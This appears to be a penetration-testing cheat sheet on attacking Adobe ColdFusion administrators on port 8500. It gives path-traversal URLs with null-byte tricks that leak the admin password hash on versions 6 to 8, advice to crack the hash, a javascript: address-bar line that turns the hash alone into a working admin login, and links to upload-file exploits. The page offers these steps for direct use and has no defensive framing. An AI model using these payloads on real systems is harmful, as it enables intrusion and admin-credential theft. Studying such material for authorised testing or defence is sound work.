

# Port 8500 - Adobe ColdFusion - Vulns
Links•
https://nets.ec/Coldfusion_hacking## LFI to extract password hashes
https://nets.ec/Coldfusion_hacking#Remote_File_Disclosure_of_Password_HashesYou can use LFI to extract admin password hashes.
The site in question must have an ColdFusion Administrator available.
By default, it's mapped to
CFIDE/administrator/enter.cfm If it returns
500 Forbidden, switch to
HTTPS.
Alternatively, use the IP and not the hostname.
Once at the ColdFusion administrator, verify it is either version 7 or 8.
Then, try the following injections:
| LFI | Affects |
|---|
| http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%00en | ColdFusion 6 |
| http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%00en | ColdFusion 7 |
| http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en | ColdFusion 8 |
| http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%00en | All versions |
A SHA1 hash of the admin pass will be printed to the screen.
You can crack the hash using a site like
hashkiller.co.uk### Can't crack the leaked SHA1 hash?
Adobe ColdFusion uses HMAC to authenticate user's passwords when logging in.
The salt for this HMAC hash is configured to change every 30 seconds.
Due to a second security advisory, you can bypass password authentication using the hash alone.
Simply paste the SHA1 hash into the admin password form and run this via your address bar:
javascript:alert(hex_hmac_sha1(document.loginform.salt.value,document.loginform.cfadminPassword.value))
You will get a javascript alert with the HMACed hash.
Log in with this HMACed hash as the password.
If you were quick enough (under 30 seconds, I think?), you'll be logged in as admin.
Check
https://nets.ec/Coldfusion_hacking if confused.
## Upload File Vulnerability
Check the URLs of both the exploits here (both for ColdFusion 8)
https://www.exploit-db.com/exploits/16788https://www.exploit-db.com/exploits/45979